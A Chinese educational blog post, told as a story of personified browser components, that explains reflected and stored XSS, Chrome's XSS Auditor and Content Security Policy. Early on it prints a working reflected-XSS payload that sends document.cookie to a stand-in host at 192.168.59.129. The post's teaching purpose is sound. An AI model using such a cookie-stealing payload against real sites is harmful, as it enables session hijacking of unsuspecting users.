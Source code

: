 ## **神秘URL**

我叫小风，是Windows帝国一个普通的上班族。上一回说到[因为一个跨域请求，我差点丢了饭碗](https://mp.weixin.qq.com/s?__biz=MzIyNjMxOTY0NA==&mid=2247484178&idx=1&sn=7d8e5efe7cba41122a6d978a08058627&scene=21#wechat_redirect)，好在有惊无险，我的职场历险记还在继续。

“叮叮叮叮~~~~”，闹钟又把我给吵醒了，我一看时间竟然已经这么晚了。

我赶紧起身，准备要去上班，好不容易在那家浏览器公司谋了个差事，可不敢迟到。

今天又是普通的一天，很快就到了深夜，上网业务少了，我和小雪妹子一合计，伙同负责网络连接的老白和负责存储的小黑，一起打起了麻将。

![图片](image/640-1639360394188360.webp)

一连打了几圈，正在兴头上，公司的美女前台跑了过来，“你们几个别玩了，上网业务来了。老白，这是URL，给”

我瞅了一眼这URL，看上去有些奇怪，不仅比之前见过的都长，貌似还夹杂着一些JavaScript代码。

> http://zone.oo.com/user/info.jsp?desc="/><script>$("body").append("<img src='http://192.168.59.129?c="+escape(document.cookie) + "'>")</script><!--

“老白，这URL长的好奇怪？会不会有什么问题？”，我向老白问到。

“嗨，你小子就是新来的，我见过的URL比你执行过的JS代码都多，什么奇形怪状的没见过，大惊小怪”，老白不屑一顾。

“大家把牌盖着，都别看，忙完了回来咱接着打”，老白继续说到。

于是大家各归各位，准备处理这一单上网业务。

很快，老白取回了这个URL背后的网页，交给了小雪来解析渲染。

小雪做了一半，叫住了我：“风哥，又有 **<script>** 标签了，该你上了”。

我接过小雪手里的网页，猛地一看，**这不是刚刚URL里面出现的代码吗？怎么又跑到网页里面去了？**

心里突然涌上一种不好的预感，正在困惑之中，老白催我了，“小雪小风你俩赶紧的，网页加载半天了还没显示出来！”

但愿是我多想了，我开始执行这 **<script>** 标签中的代码了。

```
<script>
  $("body").append("\<img src='http://192.168.59.129:10086?c=" 
  + escape(document.cookie) + "'>")
</script>
```

我要创建一个新的 **<img>** 标签，添加到网页正文中去。看了一下这个图片的来源，是一个新的地址，再一看，还要把当前网站的**Cookie**带着作为参数才能拿到这个图片。

我来到小黑的存储仓库，准备向他索要Cookie。

当我表明来意以后，小黑也显得有些谨慎，“**按照公司规定，一个网站的Cookie是不能随便给别的网站访问的**”

“这我当然知道，不过现在是这个网站的JS代码主动把Cookie取出来发给别人，这不算违反公司规定吧”，我解释到。

小黑邹着眉头想了一想，也就同意了。

我拿到cookie后，构建了一个完整的 **<img>** 标签添加到了网页的DOM树中，之后还给小雪继续渲染。

网页很快渲染完成展示出来了，忙完之后我们继续开始未完的牌局。

过了一会儿，人类终于关掉了浏览器，我们也可以下班了······

## **XSS跨站脚本攻击**

第二天一早，我刚到公司，小雪妹子就转过头告诉我：“风哥，主管让你去趟他的办公室，他好像不太高兴，你当心点”

“你知道是什么事情吗？”

“我也不太清楚，只听说你执行了什么错误的JavaScript代码”

我心里一紧，感觉大事不妙，难道是昨晚那奇怪的代码有什么问题？

来到主管的办公室，见里面坐了一个年轻小哥。我轻轻的敲了敲门问到：“主管，您找我有事？”

主管见我到来，指着旁边的沙发示意我也坐下。

“你闯祸了知道吗？”，领导扔给我一页文件。

![图片](image/640-1639360394188361.webp)

我拿起文件一看，上面赫然写着我昨晚执行那段奇怪的JavaScript代码。

“主管，我不太清楚，这是有什么问题吗？”，我小声问道。

主管指着旁边那个年轻小哥说到：“这位是OO空间网站的负责人，让他告诉你吧”

小哥点了点头说到：“是这样的，我们发现有人盗用我们网站的Cookie，免登录直接访问了进去，经过日志排查，发现是你们这里把Cookie泄露的，所以想过来了解一下情况”

![图片](image/640-1639360394188362.webp)

“这段代码是你们网站自己的，我只是完成我的工作执行了它而已啊”，我开始有些紧张了。

“可是我们网站根本没有这段代码，也不可能把Cookie就这样发给别人的”，这小哥也争辩道。

办公室的气氛变得有些紧张，现场陷入了短暂的安静。

就在此时，年轻小哥出去接了一个电话。

片刻之后，小哥再次回到办公室，脸色突然和缓了许多，笑着说到：“不好意思，刚刚接到同事的电话说，他们已经排查出了问题，**是我们网站对URL中的参数没有检查，直接写入了网页中，被人利用传入了JS代码**。跟你们应该没有关系，实在是抱歉”

![图片](image/640-1639360394189363.webp)

听完，我松了一口气，差点就要背锅了。

回到工位，我把事情的经过告诉了大伙。

小雪听后吐槽：“那些奇奇怪怪的URL就别乱点嘛，真是给我们添乱”

“你看你看，我昨晚上就觉得有些不对劲。这坏蛋手段挺高啊，能想出这么个损招，咱们给这种攻击方式取个名字吧”，小黑说到，“叫`Cross Site Script`攻击怎么样？”

老白点了点头，“跨站脚本攻击，嗯，总结很到位，那就简称CSS吧！”

小雪一听转过头来，“你叫CSS，那我的层叠样式表岂不是要改名让贤？”

老白挠了挠头，有些不好意思，“哦，忘了这一茬。那改一下，叫**XSS**，这总可以了吧？”

我们都点了点头，就这么定了。

## **XSS Auditor**

虽然这一次的事情责任不在我们浏览器，不过我一直还是有些后怕。

这天晚上，我又仔细回忆了那天整个事情的经过

![图片](image/640-1639360394189364.webp)

突然脑子里灵光一闪，发现一个重要的特点

![图片](image/640-1639360394189365.webp)

**既然JS代码同时出现在了请求的URL中和响应的网页中，何不利用这个特点来进行针对性拦截呢？**

越想越难入睡，连夜写起了方案。

第二天，来到公司，打算将昨晚的方案汇报给主管，挣一下表现。

我再次来到主管办公室，主管见是我，招呼道：“小风啊，来来来，刚好找你有点事”

我快步走了进去，只见主管又拿出了一叠文件放在我的面前，随后说到：“这是我搞到的绝密资料，是咱们隔壁Chrome浏览器公司的一个叫`XSS Auditor`的技术，据说可以阻止类似上次的攻击事件，你抽空研究一下”

![图片](image/640-1639360394189366.webp)

我脑子一懵，赶紧快速浏览了这份文件，没想到居然跟我的方案撞到一块儿了，而且比我想的还全面细致。我只好悄悄收起了原来准备汇报的方案······

几天后，主管宣布我们也要用上这种技术，增强咱们浏览器的安全性。

## **存储型XSS**

“听说了吗？隔壁Chrome浏览器公司也发生XSS攻击了”，一天中午，老白神神秘秘的说到。

我一听来了精神，“不是有XSS Auditor吗，怎么还会发生这种事？”

“这回那些坏蛋换招了，他们没有把JS代码放在URL中，XSS Auditor自然是发觉不了了”

“不在URL中，那放哪里了？”

“听说是存在了数据库里，访问网页的时候从数据库里读取出来后，直接给填充到了网页上了，喏，就像这样”，老白说完画了一个图。

![图片](image/640-1639360394189367.webp)

“对了，他们借此机会把XSS攻击分成了两种，以前那种直接通过URL把JS代码注入进网页的方式叫做`反射型XSS`，这一次这种叫`存储型XSS`”，老白继续说到。

我看了老白的图一下就明白了，“这一招也太狠了，存进了网站的数据库里，所有人访问页面都得中招”

“可不是咋的，OO空间网站那边已经乱成一锅粥了，正在内部整顿，对所有的输入进行全面的检查过滤，防止JS代码混进去。”

“这种事情还是得他们网站自己做好检查，咱们浏览器也帮不上什么忙”，一旁的小黑也插了一嘴。

大家七嘴八舌聊了几句就散了。

![图片](image/640-1639360394189368.webp)

虽然小黑说的也没错，不过上次的方案撞车，我一直不太服气，这一次机会来了，我要是能再想出一套方案，能把这次的新型XSS一并解决的话，那就扬眉吐气了。

之后一段时间，一有闲暇我就开始思考这个问题，却一直没什么进展。

## **CSP**

这一天中午，没什么工作要忙，我又想起了这个问题，小雪他们又组织打麻将，我没有心思便拒绝了。

老白闻讯过来，说到：“小风，你还在想那个问题啊，你这两天没看新闻吗，W3C标准化组织推出了一个新技术，已经把这个问题解决了！”

老白的话如当头一棒，“什么技术？怎么解决的？”

![图片](image/640-1639360394189369.webp)

“你看你，天天关起门来研究，都不知道外面的世界变化有多快。你去了解一下，好像叫什么`Content Security Policy`，哦对，就是这个，简称叫`CSP`”

我赶紧去打听了这个叫CSP的新技术，看完直拍大腿，我怎么就没想到。

CSP规定了一个叫`Content-Security-Policy`的信息，网站通过这个信息告诉浏览器哪些外部资源可以加载和执行。这个信息可以用HTTP头的形式出现，像这样：

![图片](image/640-1639360394190370.webp)

也可以通过 **<meta>** 标签出现，像这样：

```
<meta http-equiv="Content-Security-Policy" 
      content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
```

至于里面的内容，则是将所有可能出现外部资源加载的地方进行了指示，浏览器拿到它就能知道能去哪些地址加载对应的资源，如果资源所在的地址不在名单之内就拒绝加载：

```
- script-src：外部脚本
- style-src：样式表
- img-src：图像
- media-src：媒体文件（音频和视频）
- font-src：字体文件
- object-src：插件（比如 Flash）
- child-src：框架
- frame-ancestors：嵌入的外部资源
- connect-src：HTTP 连接（通过 XHR、WebSockets、EventSource等）
- worker-src：worker脚本
- manifest-src：manifest 文件
```

比如 img-src的内容是`self`，那所有的 **<img>** 标签的src属性必须是在当前网站才行，如果加载其他地址的图片就会拒绝。

不仅如此，还提供了一个叫`report-uri`的字段，字段内容是一个服务器地址，浏览器发现有不符合规定的资源加载后，除了拒绝加载还可以把这一情况报告给这个地址，网站就能及时知道预警了。

真是完美的解决方案！没想到，竟然这么多竞争对手都已经用上了这项技术

![图片](image/640-1639360394190371.webp)

当天下午，我就拉着老白去到领导办公室，说服他将这项技术在咱们公司也用起来。

烦人的XSS攻击总算是缓解了不少，我们也难得度过了一段时间的太平日子。

**未完待续······**

## **彩蛋**

> 太平的日子没有太持久，那件事之后半个月，我又因为执行一段JS代码霸占CPU太久，被帝国安全警卫队勒令我们浏览器公司强制关闭。
>
> 执行JavaScript这份工是越来越不好打了。
>
> *预知后事如何，请关注后续精彩······*